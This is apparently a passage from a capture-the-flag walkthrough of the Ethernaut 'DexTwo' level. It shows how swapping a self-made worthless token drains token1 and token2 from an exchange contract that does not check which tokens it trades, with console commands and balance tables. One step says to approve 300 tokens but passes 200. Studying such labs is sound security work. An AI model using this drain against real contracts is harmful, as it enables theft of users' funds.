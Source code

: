 We're going to exchange `EVL` token for `token1` and `token2` in such a way to drain both from `DexTwo`. Initially both `token1` and `token2` is 100. **Let's send 100 of `EVL` to `DexTwo` using `EvilToken`'s `transfer`.** So, that price ratio in `DexTwo` between `EVL` and `token1` is 1:1. Same ratio goes for `token2`.

Also, allow `DexTwo` to transact 300 (100 for `token1` and 200 for `token2` exchange) of our `EVL` tokens so that it can swap `EVL` tokens. This can be done by `approve` method of `EvilToken`, passing `contract.address` and `200` as params.

Alright at this point `DexTwo` has 100 of each - `token1`, `token2` and `EVL`. And `player` has 300 of `EVL`.

|  DEX   |        |     | player |        |     |
| :----: | :----: | --- | :----: | :----: | --- |
| token1 | token2 | EVL | token1 | token2 | EVL |
|  100   |  100   | 100 |   10   |   10   | 300 |

Get token addresses:

```js
evlToken = "<EVL-token-address>";
t1 = await contract.token1();
t2 = await contract.token2();
```

Swap 100 of `player`'s `EVL` with `token1`:

```js
await contract.swap(evlToken, t1, 100);
```

Updated balances:

|  DEX   |        |     | player |        |     |
| :----: | :----: | --- | :----: | :----: | --- |
| token1 | token2 | EVL | token1 | token2 | EVL |
|  100   |  100   | 100 |   10   |   10   | 300 |
|   0    |  100   | 200 |  110   |   10   | 200 |

Now, according to `get_swap_amount` method, to get all 100 of `token2` in exchange we need 200 of `EVL`. Swap accordingly:

```js
await contract.swap(evlToken, t2, 200);
```

Finally:

|  DEX   |        |     | player |        |     |
| :----: | :----: | :-: | :----: | :----: | :-: |
| token1 | token2 | EVL | token1 | token2 | EVL |
|  100   |  100   | 100 |   10   |   10   | 300 |
|   0    |  100   | 200 |  110   |   10   | 200 |
|   0    |   0    | 400 |  110   |  110   |  0  |
